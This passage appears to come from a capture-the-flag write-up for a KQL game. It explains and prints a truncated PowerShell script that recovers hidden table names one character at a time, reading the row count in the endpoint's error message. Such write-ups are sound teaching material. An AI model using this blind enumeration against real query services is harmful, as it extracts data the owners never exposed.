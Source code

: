 For this part, I decided to make a wrapper to send queries to the endpoint in order to speed up the process. I did this in PowerShell :cow: 
My general idea was to create a function that checks the table names prefix by running the query `.show tables | where TableName startswith '$prefix'` where I would substitute different letters for `$prefix`.
Then I wanted to have it loop over valid characters and have it "follow" any time it finds valid characters. By this logic, the loop would get to `S` and then start looping again, until it hits `St` all the way down until it gets to `StormEvents`. Here it would loop through all possible characters appending to the end of `StormEvents`, find nothing and quit.

```powershell
# Define the URLs
$startGameUrl = "https://kqlgame.redacted.redacted/start-game"
$gameUrl = "https://kqlgame.redacted.redacted/game"

# Function to check if a table name starts with a given prefix
function Check-TableNamePrefix {
    param (
        [string]$prefix
    )

    #$query = ".show table Users dimensions | where AttributeName startswith '$prefix'"
    $query = ".show tables | where TableName startswith '$prefix'"
    $formData = @{
        query = $query
    }

    # Convert form data to URL-encoded format
    $encodedFormData = [System.Web.HttpUtility]::ParseQueryString([string]::Empty)
    $formData.GetEnumerator() | ForEach-Object { $encodedFormData.Add($_.Key, $_.Value) }
    $encodedFormDataString = $encodedFormData.ToString()

    # Make the POST request
    $response = Invoke-RestMethod -Uri $gameUrl -Method Post -ContentType "application/x-www-form-urlencoded" -Body $encodedFormDataString

    # Extract the row count from the response
    if ($response -match '<h2>The row count for your query was (\d+) when it should have been 0\.</h2>') {
        return [int]$matches[1]
    } else {
        return 0
    }
}

# Define the characters to iterate through, valid characters for the flag + ADX
$characters = @('A'..'Z') + @('a'..'z') + @('0'..'9') + @('_', '{', '}')

# Initialize variables
$tableNames = @()
$currentPrefix =  ""
$runCount = 0

# Loop to find table names
while ($true) {
    $found = $false
    foreach ($char in $characters) {
        $prefix = $currentPrefix + $char
        Write-Output "Running query with prefix: $prefix"
        $rowCount = Check-TableNamePrefix -prefix $prefix
        Write-Output "Query result for prefix '$prefix': $rowCount rows"

        if ($rowCount -eq 1) {
            $currentPrefix = $prefix
```
